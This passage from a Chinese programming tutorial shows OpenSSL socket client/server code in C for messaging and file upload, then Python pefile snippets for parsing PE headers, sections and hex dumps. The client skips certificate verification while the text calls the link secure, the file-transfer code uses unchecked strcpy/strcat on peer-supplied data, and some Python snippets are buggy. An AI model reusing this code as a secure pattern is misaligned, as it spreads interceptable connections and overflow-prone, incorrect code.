执行如上两条命令，读者可得到两个文件首先生成`2048`位的`privkey.pem`也就是私钥，接着利用私钥文件生成`cacert.pem`证书文件，该文件的有效期为`1095`天也就是三年，当然此处由于是测试可以使用自定义生成，如果在实际环境中还是需要购买正规签名来使用的。



服务端实现代码与原生套接字通信保持高度一致，在连接方式上同样采用了标准`API`实现，唯一的不同在于当`accept`函数接收到用于请求时，我们需要通过`SSL_new`产生一个`SSL`对象，当需要发送数据时使用`SSL_write`，而当需要接收数据时则使用`SSL_read`函数，通过使用这两个函数即可保证中间的传输流程是安全的，其他流程与标准套接字编程保持一致，如下是服务端完整代码实现。

```c
#include <WinSock2.h>
#include <iostream>
#include <string.h>
#include <errno.h>
#include <stdlib.h>

#include <openssl/bio.h>
#include <openssl/err.h>
#include <openssl/ssl.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib, "WS2_32.lib")
#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")

#define MAXBUF 1024

int main(int argc, char** argv)
{
  SOCKET sockfd, new_fd;
  struct sockaddr_in socket_ptr, their_addr;

  char buf[MAXBUF + 1] = {0};

  SSL_CTX* ctx;

  // SSL库初始化
  SSL_library_init();

  // 载入所有SSL算法
  OpenSSL_add_all_algorithms();

  // 载入所有SSL错误消息
  SSL_load_error_strings();

  // 以SSLV2和V3标准兼容方式产生一个SSL_CTX即SSLContentText
  ctx = SSL_CTX_new(SSLv23_server_method());
  if (ctx == NULL)
  {
    std::cout << "[-] 产生CTX上下文对象错误" << std::endl;
    return 0;
  }
  else
  {
    std::cout << "[+] 产生CTX上下文对象" << std::endl;
  }

  // 载入用户的数字证书,此证书用来发送给客户端,证书里包含有公钥
  if (SSL_CTX_use_certificate_file(ctx, "d://cacert.pem", SSL_FILETYPE_PEM) <= 0)
  {
    std::cout << "[-] 载入公钥失败" << std::endl;
    return 0;
  }
  else
  {
    std::cout << "[+] 已载入公钥" << std::endl;
  }

  // 载入用户私钥
  if (SSL_CTX_use_PrivateKey_file(ctx, "d://privkey.pem", SSL_FILETYPE_PEM) <= 0)
  {
    std::cout << "[-] 载入私钥失败" << std::endl;
    return 0;
  }
  else
  {
    std::cout << "[+] 已载入私钥" << std::endl;
  }

  // 检查用户私钥是否正确
  if (!SSL_CTX_check_private_key(ctx))
  {
    std::cout << "[-] 用户私钥错误" << std::endl;
    return 0;
  }

  // 开启Socket监听
  WSADATA wsaData;
  WSAStartup(MAKEWORD(2, 2), &wsaData);
  if (LOBYTE(wsaData.wVersion) != 2 || HIBYTE(wsaData.wVersion) != 2)
  {
    WSACleanup();
    return 0;
  }

  // 创建套接字
  if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1)
  {
    return 0;
  }

  socket_ptr.sin_family = AF_INET;
  socket_ptr.sin_addr.s_addr = htonl(INADDR_ANY);
  socket_ptr.sin_port = htons(9999);

  // 绑定套接字
  if (bind(sockfd, (struct sockaddr*)&socket_ptr, sizeof(struct sockaddr)) == -1)
  {
    return 0;
  }
  if (listen(sockfd, 10) == -1)
  {
    return 0;
  }

  while (1)
  {
    SSL* ssl;
    int len = sizeof(struct sockaddr);

    // 等待客户端连接
    if ((new_fd = accept(sockfd, (struct sockaddr*)&their_addr, &len)) != -1)
    {
      printf("客户端地址: %s --> 端口: %d --> 套接字: %d \n", inet_ntoa(their_addr.sin_addr), ntohs(their_addr.sin_port), new_fd);
    }

    // 基于ctx产生一个新的SSL
    ssl = SSL_new(ctx);

    // 将连接用户的socket加入到SSL
    SSL_set_fd(ssl, new_fd);

    // 建立SSL连接
    if (SSL_accept(ssl) == -1)
    {
      closesocket(new_fd);
      break;
    }

    // 开始处理每个新连接上的数据收发
    memset(buf, 0, MAXBUF);
    strcpy(buf, "[服务端消息] hello lyshark");

    // 发消息给客户端
    len = SSL_write(ssl, buf, strlen(buf));
    if (len <= 0)
    {
      goto finish;
      return 0;
    }

    memset(buf, 0, MAXBUF);

    // 接收客户端的消息
    len = SSL_read(ssl, buf, MAXBUF);
    if (len > 0)
    {
      printf("[接收到客户端消息] => %s \n", buf);
    }

    // 关闭套接字连接
  finish:
    SSL_shutdown(ssl);
    SSL_free(ssl);
    closesocket(new_fd);
  }

  closesocket(sockfd);
  WSACleanup();
  SSL_CTX_free(ctx);

  system("pause");
  return 0;
}
```

客户端实现代码同样与原生套接字编程保持一致，如下是完整代码，读者可以发现当使用`connect`连接到服务端后，依然调用了`SSL_connect`函数，此处的函数功能是在服务端下载证书信息，并完成证书通信验证，当验证实现后，则读者就可以向原生套接字那样去操作数据包的流向了。

```c
#include <WinSock2.h>
#include <iostream>
#include <string.h>
#include <errno.h>
#include <stdlib.h>

#include <openssl/bio.h>
#include <openssl/err.h>
#include <openssl/ssl.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib, "WS2_32.lib")
#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")

#define MAXBUF 1024

void ShowCerts(SSL* ssl)
{
  X509* cert;
  char* line;

  cert = SSL_get_peer_certificate(ssl);
  if (cert != NULL)
  {
    line = X509_NAME_oneline(X509_get_subject_name(cert), 0, 0);
    printf("[+] 证书: %s \n", line);
    free(line);
    line = X509_NAME_oneline(X509_get_issuer_name(cert), 0, 0);
    printf("[+] 颁发者: %s \n", line);
    free(line);
    X509_free(cert);
  }
  else
  {
    printf("[-] 无证书信息 \n");
  }
}

int main(int argc, char** argv)
{
  int sockfd, len;
  struct sockaddr_in dest;
  char buffer[MAXBUF + 1] = { 0 };

  SSL_CTX* ctx;
  SSL* ssl;

  // SSL库初始化
  SSL_library_init();
  OpenSSL_add_all_algorithms();
  SSL_load_error_strings();

  // 建立CTX上下文
  ctx = SSL_CTX_new(SSLv23_client_method());
  if (ctx == NULL)
  {
    WSACleanup();
    return 0;
  }

  // 创建Socket
  WSADATA wsaData;
  WSAStartup(MAKEWORD(2, 2), &wsaData);
  if (LOBYTE(wsaData.wVersion) != 2 || HIBYTE(wsaData.wVersion) != 2)
  {
    WSACleanup();
    return 0;
  }

  if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  {
    WSACleanup();
    return 0;
  }

  // 初始化服务器端(对方)的地址和端口信息
  dest.sin_family = AF_INET;
  dest.sin_addr.s_addr = inet_addr("127.0.0.1");
  dest.sin_port = htons(9999);

  // 连接服务器
  if (connect(sockfd, (struct sockaddr*)&dest, sizeof(dest)) != 0)
  {
    WSACleanup();
    return 0;
  }

  // 基于ctx产生一个新的SSL
  ssl = SSL_new(ctx);
  SSL_set_fd(ssl, sockfd);

  // 建立 SSL 连接
  if (SSL_connect(ssl) != -1)
  {
    printf("[+] SSL连接类型: %s \n", SSL_get_cipher(ssl));
    ShowCerts(ssl);
  }

  //接收服务器来的消息 最多接收MAXBUF字节
  len = SSL_read(ssl, buffer, MAXBUF);
  if (len > 0)
  {
    printf("接收消息: %s --> 共 %d 字节 \n", buffer, len);
  }
  else
  {
    goto finish;
  }

  memset(buffer, 0, MAXBUF);
  strcpy(buffer, "[客户端消息] hello Shark");

  // 发消息给服务器
  len = SSL_write(ssl, buffer, strlen(buffer));
  if (len > 0)
  {
    printf("[+] 发送成功 \n");
  }

finish:
  // 关闭连接
  SSL_shutdown(ssl);
  SSL_free(ssl);
  closesocket(sockfd);
  SSL_CTX_free(ctx);

  system("pause");
  return 0;
}
```

至此读者可以分别编译服务端与客户端程序，并首先运行服务端侦听套接字，接着运行客户端，此时即可看到如下图所示的通信流程，至此两者的通信数据包将被加密传输，从而保证了数据的安全性。



### 20.8 套接字SSL传输文件

有了上面的基础那么传输文件的实现就变得简单了，在传输时通常我们需要打开文件，并每次读入`1024`个字节的数据包，通过`SSL`加密传输即可，此处的文件传输功能在原生套接字章节中也进行过详细讲解，此处我们还是使用原来的密钥对，实现一个服务端等待客户端上传，当客户端连接到服务端后则开始传输文件，服务端接收文件的功能。

服务端代码部分，此处我们只需要实现一个`DownloadFile`函数，该函数接收一个`SSL`套接字，与保存文件路径即可，其他部分同上。

```c
#include <WinSock2.h>
#include <iostream>
#include <string.h>
#include <errno.h>
#include <stdlib.h>

#include <openssl/bio.h>
#include <openssl/err.h>
#include <openssl/ssl.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib, "WS2_32.lib")
#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")

#define MAXBUF 1024

// 从路径中获取当前文件名
char* GetFileName(char* Path)
{
  if (strchr(Path, '\\'))
  {
    char ch = '\\';
    char* ref = strrchr(Path, ch) + 1;
    return ref;
  }
  else
  {
    char ch = '/';
    char* ref = strrchr(Path, ch) + 1;
    return ref;
  }
}

// 下载文件到当前目录
// 传入套接字句柄,以及放置根目录
void DownloadFile(SSL* ptr, const char* RootPath)
{
  int FileSize = 0;
  char FilePath[1024] = { 0 };
  char buffer[1024] = { 0 };

  // 接收文件长度
  SSL_read(ptr, &FileSize, 4);

  // 接收文件路径
  SSL_read(ptr, FilePath, 1024);

  // 获取到文件名
  char* FileName = GetFileName(FilePath);

  // 拼接路径
  char sz[1024] = { 0 };
  strcpy(sz, RootPath);
  strcat(sz, FileName);
  std::cout << sz << std::endl;

  // 保存文件到当前目录
  FILE* pointer = fopen(sz, "wb");

  if (pointer != NULL)
  {
    DWORD length = 0;
    DWORD total_length = 0;

    // 循环接收字节数据,每次接收1024字节
    while ((length = SSL_read(ptr, buffer, 1024)) > 0)
    {
      // 写出文件并判断是否写出成功
      if (fwrite(buffer, sizeof(char), length, pointer) < length)
      {
        break;
      }

      // 每次累加递增
      total_length += length;
      memset(buffer, 0, 1024);

      // 判断文件长度是否全部接收完毕
      if (total_length >= FileSize)
      {
        std::cout << "[传输完成] " << total_length << std::endl;
        fclose(pointer);
        return;
      }
    }
    fclose(pointer);
  }
}

int main(int argc, char** argv)
{
  SOCKET sockfd, new_fd;
  struct sockaddr_in socket_ptr, their_addr;
  char buf[MAXBUF + 1];
  SSL_CTX* ctx;

  SSL_library_init();
  OpenSSL_add_all_algorithms();
  SSL_load_error_strings();

  ctx = SSL_CTX_new(SSLv23_server_method());
  if (ctx == NULL)
  {
    return 0;
  }

  if (SSL_CTX_use_certificate_file(ctx, "d://cacert.pem", SSL_FILETYPE_PEM) <= 0)
  {
    return 0;
  }

  if (SSL_CTX_use_PrivateKey_file(ctx, "d://privkey.pem", SSL_FILETYPE_PEM) <= 0)
  {
    return 0;
  }

  if (!SSL_CTX_check_private_key(ctx))
  {
    return 0;
  }

  WSADATA wsaData;

  WSAStartup(MAKEWORD(2, 2), &wsaData);
  if (LOBYTE(wsaData.wVersion) != 2 || HIBYTE(wsaData.wVersion) != 2)
  {
    WSACleanup();
    return 0;
  }

  if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1)
  {
    return 0;
  }

  socket_ptr.sin_family = AF_INET;
  socket_ptr.sin_addr.s_addr = inet_addr("127.0.0.1");
  socket_ptr.sin_port = htons(9999);

  if (bind(sockfd, (struct sockaddr*)&socket_ptr, sizeof(struct sockaddr)) == -1)
  {
    return 0;
  }
  if (listen(sockfd, 10) == -1)
  {
    return 0;
  }

  while (1)
  {
    SSL* ssl;
    int len = sizeof(struct sockaddr);
    if ((new_fd = accept(sockfd, (struct sockaddr*)&their_addr, &len)) != -1)
    {
      printf("客户端地址: %s --> 端口: %d --> 套接字: %d \n", inet_ntoa(their_addr.sin_addr), ntohs(their_addr.sin_port), new_fd);
    }

    ssl = SSL_new(ctx);
    SSL_set_fd(ssl, new_fd);
    if (SSL_accept(ssl) == -1)
    {
      closesocket(new_fd);
      break;
    }

    // 调用下载文件函数
    DownloadFile(ssl, "d://lyshark/");

  finish:
    SSL_shutdown(ssl);
    SSL_free(ssl);
    closesocket(new_fd);
  }

  closesocket(sockfd);
  WSACleanup();
  SSL_CTX_free(ctx);

  system("pause");
  return 0;
}
```

客户端部分，同样代码中只需要实现一个`UploadFile`函数，该函数用于发送本地文件到远程，其他部分同上。

```c
#include <WinSock2.h>
#include <iostream>
#include <string.h>
#include <errno.h>
#include <stdlib.h>

#include <openssl/bio.h>
#include <openssl/err.h>
#include <openssl/ssl.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib, "WS2_32.lib")
#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")

#define MAXBUF 1024

// 获取文件大小
int GetFileSize(std::string FileName)
{
  FILE* pointer = NULL;
  pointer = fopen(FileName.c_str(), "rb");
  if (pointer != NULL)
  {
    fseek(pointer, 0, SEEK_END);
    int size = ftell(pointer);
    fclose(pointer);
    return size;
  }
  return 0;
}

// 上传文件,传入socket套接字句柄,需要发送的文件路径
void UploadFile(SSL* ptr, const char* FilePath)
{
  int FileSize = GetFileSize(FilePath);
  char buffer[1024] = { 0 };

  // 发送文件长度
  SSL_write(ptr, &FileSize, 4);

  // 发送完整文件路径
  SSL_write(ptr, FilePath, strlen(FilePath));
  FILE* pointer = fopen(FilePath, "rb");
  if (pointer != NULL)
  {
    int length = 0;
    DWORD total_length = 0;

    while ((length = fread(buffer, sizeof(char), 1024, pointer)) > 0)
    {
      SSL_write(ptr, buffer, length);
      memset(buffer, 0, 1024);
    }
  }
}

int main(int argc, char** argv)
{
  int sockfd, len;
  struct sockaddr_in dest;
  char buffer[MAXBUF + 1] = { 0 };
  SSL_CTX* ctx;
  SSL* ssl;

  SSL_library_init();
  OpenSSL_add_all_algorithms();
  SSL_load_error_strings();

  ctx = SSL_CTX_new(SSLv23_client_method());
  if (ctx == NULL)
  {
    WSACleanup();
    return 0;
  }

  WSADATA wsaData;

  WSAStartup(MAKEWORD(2, 2), &wsaData);
  if (LOBYTE(wsaData.wVersion) != 2 || HIBYTE(wsaData.wVersion) != 2)
  {
    WSACleanup();
    return 0;
  }

  if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  {
    WSACleanup();
    return 0;
  }

  dest.sin_family = AF_INET;
  dest.sin_addr.s_addr = inet_addr("127.0.0.1");
  dest.sin_port = htons(9999);

  if (connect(sockfd, (struct sockaddr*)&dest, sizeof(dest)) != 0)
  {
    WSACleanup();
    return 0;
  }

  ssl = SSL_new(ctx);
  SSL_set_fd(ssl, sockfd);

  if (SSL_connect(ssl) != -1)
  {
    printf("SSL 连接类型: %s \n", SSL_get_cipher(ssl));
  }

  // 发送文件
  UploadFile(ssl, "d://lyshark.exe");

finish:
  SSL_shutdown(ssl);
  SSL_free(ssl);
  closesocket(sockfd);
  SSL_CTX_free(ctx);

  system("pause");
  return 0;
}
```

读者可自行编译这段代码，并首先启动服务端等待传输，接着打开客户端，此时客户端中的`d://lyshark.exe`将被传输到服务端的特定目录下，如下图所示；



## 第二十一篇：Python安全编程技术

### 21.1 使用PEfile分析PE文件

PeFile模块是`Python`中一个强大的便携式第三方`PE`格式分析工具，用于解析和处理`Windows`可执行文件。该模块提供了一系列的API接口，使得用户可以通过`Python`脚本来读取和分析PE文件的结构，包括文件头、节表、导入表、导出表、资源表、重定位表等等。

此外，PEfile模块还可以帮助用户进行一些恶意代码分析，比如提取样本中的字符串、获取函数列表、重构导入表、反混淆等等。PEfile模块是Python中处理PE文件的重要工具之一，广泛应用于二进制分析、安全研究和软件逆向工程等领域。

由于该模块为第三方模块，在使用之前读者需要在命令行下执行`pip install pefile`命令安装第三方库，当安装成功后即可正常使用，如下所示则是该模块的基本使用方法，读者可自行学习理解。

#### 21.1.1 打开并加载PE文件

如下这段代码封装并实现了`OpenPeFile`函数，可用于打开一个PE文件，在其内部首先判断了可执行文件是否被压缩如果被压缩则会通过`zipfile`模块将压缩包读入内存并调用`C2BIP3`函数将数据集转换为2字节，接着再执行`pefile.PE()`函数，该函数可用于将可执行文件载入，至此读者可在主函数内通过`pe.dump_dict()`的方式输出该PE文件的所有参数，由于输出的是字典，读者可以使用字典与列表的方式灵活的提取出该程序的所有参数信息。

```python
import sys
import zipfile
import pefile

# 如果是Python3则转换为2字节
def C2BIP3(string):
    if sys.version_info[0] > 2:
        return bytes([ord(x) for x in string])
    else:
        return string

# 打开文件
def OpenPeFile(filename):

    # 判断是否是ZIP压缩包
    if filename.lower().endswith('.zip'):
        try:
            oZipfile = zipfile.ZipFile(filename, 'r')
            file = oZipfile.open(oZipfile.infolist()[0], 'r', C2BIP3('infected'))
        except Exception:
            print(sys.exc_info()[1])
            sys.exit()
        oPE = pefile.PE(data=file.read())
        file.close()
        oZipfile.close()

    # 如果是空则
    elif filename == '':
        oPE = False
        return oPE
    # 否则直接打开文件
    else:
        oPE = pefile.PE(filename)
    return oPE

if __name__ == "__main__":
    pe = OpenPeFile("d://lyshark.exe")
    print(pe.FILE_HEADER.dump())
    print(pe.dump_dict())
```

#### 21.1.2 解析PE头部数据

如下代码实现了解析PE结构中头部基本数据，在`GetHeader`函数内，我们首先通过`pe.FILE_HEADER.Machine`成员判断当前读入的文件的位数信息，通过`pe.FILE_HEADER.Characteristics`可判断PE文件的类型，通常为EXE可执行文件或DLL动态链接库文件，通过`AddressOfEntryPoint`加上`ImageBase`则可获取到程序的实际装载地址，压缩数据的计算可通过`hashlib`模块对PE文件字节数据进行计算摘要获取，最后是附加数据，通过`get_overlay_data_start_offset`则可获取到，并依次循环即可输出所有附加数据。

```python
import hashlib
import pefile

# 计算得到数据长度,自动使用推荐大小
def NumberOfBytesHumanRepresentation(value):
    if value <= 1024:
        return '%s bytes' % value
    elif value < 1024 * 1024:
        return '%.1f KB' % (float(value) / 1024.0)
    elif value < 1024 * 1024 * 1024:
        return '%.1f MB' % (float(value) / 1024.0 / 1024.0)
    else:
        return '%.1f GB' % (float(value) / 1024.0 / 1024.0 / 1024.0)

# 获取PE头部基本信息
def GetHeader(pe):
    raw = pe.write()

    # 扫描基本信息
    print("-" * 50)
    print("程序基本信息")
    print("-" * 50)
    if (hex(pe.FILE_HEADER.Machine) == "0x14c"):
        print("程序位数: {}".format("x86"))
    if (hex(pe.FILE_HEADER.Machine) == "0x8664"):
        print("程序位数: {}".format("x64"))

    if (hex(pe.FILE_HEADER.Characteristics) == "0x102"):
        print("程序类型: Executable")
    elif (hex(pe.FILE_HEADER.Characteristics) == "0x2102"):
        print("程序类型: Dynamic link library")

    if pe.OPTIONAL_HEADER.AddressOfEntryPoint:
        oep = pe.OPTIONAL_HEADER.AddressOfEntryPoint + pe.OPTIONAL_HEADER.ImageBase
        print("实际入口: {}".format(hex(oep)))

    print("映像基址: {}".format(hex(pe.OPTIONAL_HEADER.ImageBase)))
    print("虚拟入口: {}".format(hex(pe.OPTIONAL_HEADER.AddressOfEntryPoint)))
    print("映像大小: {}".format(hex(pe.OPTIONAL_HEADER.SizeOfImage)))
    print("区段对齐: {}".format(hex(pe.OPTIONAL_HEADER.SectionAlignment)))
    print("文件对齐: {}".format(hex(pe.OPTIONAL_HEADER.FileAlignment)))
    print("区块数量: {}".format(int(pe.FILE_HEADER.NumberOfSections + 1)))
    print('熵值比例: %f (Min=0.0, Max=8.0)' % pe.sections[0].entropy_H(raw))

    # 计算压缩数据
    print("-" * 50)
    print("计算压缩数据")
    print("-" * 50)
    print('MD5     : %s' % hashlib.md5(raw).hexdigest())
    print('SHA-1   : %s' % hashlib.sha1(raw).hexdigest())
    print('SHA-256 : %s' % hashlib.sha256(raw).hexdigest())
    print('SHA-512 : %s' % hashlib.sha512(raw).hexdigest())

    # 扫描文件末尾是否存在附加数据
    print("-" * 50)
    print("扫描附加数据")
    print("-" * 50)
    overlayOffset = pe.get_overlay_data_start_offset()
    if overlayOffset != None:
        print("起始文件位置: 0x%08x"%overlayOffset)
        overlaySize = len(raw[overlayOffset:])
        print("长度: 0x%08x %s %.2f%%"%(overlaySize, NumberOfBytesHumanRepresentation(overlaySize), float(overlaySize) / float(len(raw)) * 100.0))
        print("MD5: %s" %hashlib.md5(raw[overlayOffset:]).hexdigest())
        print("SHA-256: %s" %hashlib.sha256(raw[overlayOffset:]).hexdigest())

if __name__ == "__main__":
    pe = pefile.PE("d://lyshark.exe")
    GetHeader(pe)
```

#### 21.1.3 解析节表数据

运用`PEFile`模块解析节表也很容易，如下代码中分别实现了两个功能函数，函数`ScanSection()`用于输出当前文件的所有节表数据，其中通过`pe.FILE_HEADER.NumberOfSections`得到节表数量，并通过循环的方式依次解析`pe.sections`中的每一个节中元素，函数`CheckSection()`则可用于计算`PE`文件节大小以及节`MD5`值，完整代码如下所示；

```python
import hashlib
import pefile

# 计算得到数据长度,自动使用推荐大小
def NumberOfBytesHumanRepresentation(value):
    if value <= 1024:
        return '%s bytes' % value
    elif value < 1024 * 1024:
        return '%.1f KB' % (float(value) / 1024.0)
    elif value < 1024 * 1024 * 1024:
        return '%.1f MB' % (float(value) / 1024.0 / 1024.0)
    else:
        return '%.1f GB' % (float(value) / 1024.0 / 1024.0 / 1024.0)

# 输出所有的节
def ScanSection(pe):
    print("-" * 100)
    print("{:10s}{:10s}{:10s}{:10s}{:10s}{:10s}{:10s}{:10s}".
          format("序号","节区名称","虚拟偏移","虚拟大小","实际偏移","实际大小","节区属性","熵值"))
    print("-" * 100)
    section_count = int(pe.FILE_HEADER.NumberOfSections + 1)

    for count,item in zip(range(1,section_count),pe.sections):
        print("%d\t\t\t%-10s\t0x%.8X\t0x%.8X\t0x%.8X\t0x%.8X\t0x%.8X\t%f"
              %(count,(item.Name).decode("utf-8"),item.VirtualAddress,item.Misc_VirtualSize,item.PointerToRawData,item.SizeOfRawData,item.Characteristics,item.get_entropy()))
    print("-" * 100)

# 计算所有节的MD5
def CheckSection(pe):
    print("-" * 100)
    print("序号\t\t节名称\t\t文件偏移\t\t大小\t\tMD5\t\t\t\t\t\t\t\t\t\t节大小")
    print("-" * 100)

    # 读取PE文件到内存
    image_data = pe.get_memory_mapped_image()

    section_count = int(pe.FILE_HEADER.NumberOfSections + 1)
    for count,item in zip(range(1,section_count),pe.sections):

        section_data = image_data[item.PointerToRawData: item.PointerToRawData + item.SizeOfRawData - 1]
        data_size = NumberOfBytesHumanRepresentation(len(section_data))
        hash_value = hashlib.md5(section_data).hexdigest()
        print("{}\t{:10s}\t{:10X}\t{:10X}\t{:30s}\t{}".format(count,(item.Name).decode("utf-8"),item.PointerToRawData,item.SizeOfRawData,hash_value,data_size))
    print("-" * 100)

if __name__ == "__main__":
    pe = pefile.PE("d://lyshark.exe")
    ScanSection(pe)
    CheckSection(pe)
```

#### 21.1.4 节区RVA与FOA互转

此处计算节偏移地址，相信读者能理解，在之前的文章中我们详细的介绍了PE文件如何进行`RVA`与`FOA`以及`VA`之间的转换的，如果是在平时的恶意代码分析中需要快速实现转换那么使用Python将是一个不错的选择，如下代码中`RVAToFOA`可将一个`RVA`相对地址转换为`FOA`文件偏移，`FOAToRVA`则可实现将一个FOA文件偏移转换为RVA先对地址，当然PeFile模块内也提供了`get_rva_from_offset`实现从FOA转RVA，`get_offset_from_rva`则是从RVA到FOA，读者可自行选择不同的转换方式。

```python
import pefile

# 将RVA转换为FOA的函数
def RVAToFOA(pe,rva):
    for item in pe.sections:
        Section_Start = item.VirtualAddress
        Section_Ends = item.VirtualAddress + item.SizeOfRawData
        if rva >= Section_Start and rva < Section_Ends:
            return rva - item.VirtualAddress + item.PointerToRawData
    return -1

# 将FOA文件偏移转换为RVA相对地址
def FOAToRVA(pe,foa):
    ImageBase = pe.OPTIONAL_HEADER.ImageBase
    NumberOfSectionsCount = pe.FILE_HEADER.NumberOfSections

    for index in range(0,NumberOfSectionsCount):
        PointerRawStart = pe.sections[index].PointerToRawData
        PointerRawEnds = pe.sections[index].PointerToRawData + pe.sections[index].SizeOfRawData

        if foa >= PointerRawStart and foa <= PointerRawEnds:
            rva = pe.sections[index].VirtualAddress + (foa - pe.sections[index].PointerToRawData)
            return rva
    return -1

# 内部功能实现FOA->RVA互转
def inside(pe):
    # 从FOA获取RVA 传入十进制
    rva = pe.get_rva_from_offset(3952)
    print("对应内存RVA: {}".format(hex(rva)))

    # 从RVA获取FOA 传入十进制
    foa = pe.get_offset_from_rva(rva)
    print("对应文件FOA: {}".format(foa))

if __name__ == "__main__":
    pe = pefile.PE("d://lyshark.exe")
    ref = RVAToFOA(pe,4128)
    print("RVA转FOA => 输出十进制: {}".format(ref))

    ref = FOAToRVA(pe,1056)
    print("FOA转RVA => 输出十进制: {}".format(ref))
```

#### 21.1.5 解析数据为Hex格式

如下代码片段实现了对PE文件的各种十六进制操作功能，封装`cDump()`类，该类内由多个类函数可以使用，其中`HexDump()`可用于将读入的PE文件以16进制方式输出，`HexAsciiDump()`则可用于输出十六进制以及所对应的ASCII格式，`GetSectionHex()`用于找到PE文件的`.text`节，并将此节内的数据读入到内存中，这段代码可以很好的实现对PE文件的十六进制输出与解析，读者可在实际开发中使用。

```python
import pefile
from io import StringIO
import sys
import re

dumplinelength = 16

def CIC(expression):
    if callable(expression):
        return expression()
    else:
        return expression

def IFF(expression, valueTrue, valueFalse):
    if expression:
        return CIC(valueTrue)
    else:
        return CIC(valueFalse)

class cDump():
    def __init__(self, data, prefix='', offset=0, dumplinelength=16):
        self.data = data
        self.prefix = prefix
        self.offset = offset
        self.dumplinelength = dumplinelength

    # 输出指定位置的十六进制格式
    def HexDump(self):
        oDumpStream = self.cDumpStream(self.prefix)
        hexDump = ''
        for i, b in enumerate(self.data):
            if i % self.dumplinelength == 0 and hexDump != '':
                oDumpStream.Addline(hexDump)
                hexDump = ''
            hexDump += IFF(hexDump == '', '', ' ') + '%02X' % self.C2IIP2(b)
        oDumpStream.Addline(hexDump)
        return oDumpStream.Content()

    def CombineHexAscii(self, hexDump, asciiDump):
        if hexDump == '':
            return ''
        countSpaces = 3 * (self.dumplinelength - len(asciiDump))
        if len(asciiDump) <= self.dumplinelength / 2:
            countSpaces += 1
        return hexDump + '  ' + (' ' * countSpaces) + asciiDump

    # 输出指定位置的十六进制格式以及ASCII字符串
    def HexAsciiDump(self):
        oDumpStream = self.cDumpStream(self.prefix)
        hexDump = ''
        asciiDump = ''
        for i, b in enumerate(self.data):
            b = self.C2IIP2(b)
            if i % self.dumplinelength == 0:
                if hexDump != '':
                    oDumpStream.Addline(self.CombineHexAscii(hexDump, asciiDump))
                hexDump = '%08X:' % (i + self.offset)
                asciiDump = ''
            if i % self.dumplinelength == self.dumplinelength / 2:
                hexDump += ' '
            hexDump += ' %02X' % b
            asciiDump += IFF(b >= 32 and b <= 128, chr(b), '.')
        oDumpStream.Addline(self.CombineHexAscii(hexDump, asciiDump))
        return oDumpStream.Content()

    class cDumpStream():
        def __init__(self, prefix=''):
            self.oStringIO = StringIO()
            self.prefix = prefix

        def Addline(self, line):
            if line != '':
                self.oStringIO.write(self.prefix + line + '\n')

        def Content(self):
            return self.oStringIO.getvalue()

    @staticmethod
    def C2IIP2(data):
        if sys.version_info[0] > 2:
            return data
        else:
            return ord(data)

# 只输出十六进制数据
def HexDump(data):
    return cDump(data, dumplinelength=dumplinelength).HexDump()

# 输出十六进制与ASCII字符串
def HexAsciiDump(data):
    return cDump(data, dumplinelength=dumplinelength).HexAsciiDump()

# 找到指定节并读取hex数据
def GetSectionHex(pe):
    ImageBase = pe.OPTIONAL_HEADER.ImageBase
    for item in pe.sections:
        # 判断是否是.text节
        if str(item.Name.decode('UTF-8').strip(b'\x00'.decode())) == ".text":
            # print("虚拟地址: 0x%.8X 虚拟大小: 0x%.8X" %(item.VirtualAddress,item.Misc_VirtualSize))
            VirtualAddress = item.VirtualAddress
            VirtualSize = item.Misc_VirtualSize
            ActualOffset = item.PointerToRawData

            StartVA = hex(ImageBase + VirtualAddress)
            StopVA = hex(ImageBase + VirtualAddress + VirtualSize)
            print("[+] 代码段起始地址: {} 结束: {} 实际偏移:{} 长度: {}".format(StartVA, StopVA, ActualOffset, VirtualSize))

            # 获取到.text节区间内的数据
            hex_code = pe.write()[ActualOffset: VirtualSize]
            return hex_code
        else:
            print("程序中不存在.text节")
            return 0
    return 0

REGEX_STANDARD = '[\x09\x20-\x7E]'

def ExtractStringsASCII(data):
    regex = REGEX_STANDARD + '{%d,}'
    return re.findall(regex % 4, data)

def ExtractStringsUNICODE(data):
    regex = '((' + REGEX_STANDARD + '\x00){%d,})'
    return [foundunicodestring.replace('\x00', '') for foundunicodestring, dummy in re.findall(regex % 4, data)]

# 将传入Hex字符串以每16字符分割在一个列表内
def ExtractStrings(data):
    return ExtractStringsASCII(data) + ExtractStringsUNICODE(data)

if __name__ == "__main__":
    pe = pefile.PE("d://lyshark.exe")

    # 得到.text节内数据
    ref = GetSectionHex(pe)

    # 转为十六进制格式
    dump_hex = HexDump(ref)
    print(dump_hex)

    # 打包为每16字符一个列表
    dump_list = ExtractStrings(dump_hex)

    print(dump_list)
```

#### 21.1.6 解析数据目录表

数据目录表用于记录可执行文件的数据目录项在文件中的位置和大小。数据目录表共有16个条目，每个条目都对应着一个数据目录项，每个数据目录项都描述了可执行文件中某一部分的位置和大小。

数据目录表的解析可以使用`pe.OPTIONAL_HEADER.NumberOfRvaAndSizes`首先获取到数据目录表的个数，接着二通过循环个数依次解包`OPTIONAL_HEADER.DATA_DIRECTORY`里面的每一个列表，在循环列表时依次解包输出即可。

```python
import pefile

# 将RVA转换为FOA的函数
def RVAToFOA(pe,rva):
    for item in pe.sections:
        Section_Start = item.VirtualAddress
        Section_Ends = item.VirtualAddress + item.SizeOfRawData
        if rva >= Section_Start and rva < Section_Ends:
            return rva - item.VirtualAddress + item.PointerToRawData
    return -1

# 扫描数据目录表
def ScanOptional(pe):
    optional_size = pe.OPTIONAL_HEADER.NumberOfRvaAndSizes
    print("数据目录表个数: {}".format(optional_size))

